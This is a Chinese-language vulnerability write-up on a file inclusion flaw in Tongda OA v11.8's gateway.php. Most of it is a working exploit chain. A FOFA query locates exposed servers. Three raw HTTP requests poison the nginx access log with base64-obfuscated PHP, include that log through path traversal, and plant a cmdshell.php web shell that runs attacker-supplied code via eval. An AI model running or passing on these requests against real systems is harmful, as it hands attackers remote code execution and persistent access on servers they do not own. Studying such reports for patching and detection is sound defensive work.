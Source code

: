 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

```
通达OA v11.8
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面

![image-20220520154525896](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/202205201545994.png)

发送恶意请求让日志被记录

```
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![image-20220520154539264](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/202205201545324.png)

在通过漏洞包含日志文件

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![image-20220520154553517](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/202205201545558.png)

再次发送恶意请求写入文件

```
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

访问写入的文件 `/mac/cmdshell.php`

![image-20220520154623095](https://0-bit.oss-cn-beijing.aliyuncs.com/cuer/202205201546179.png)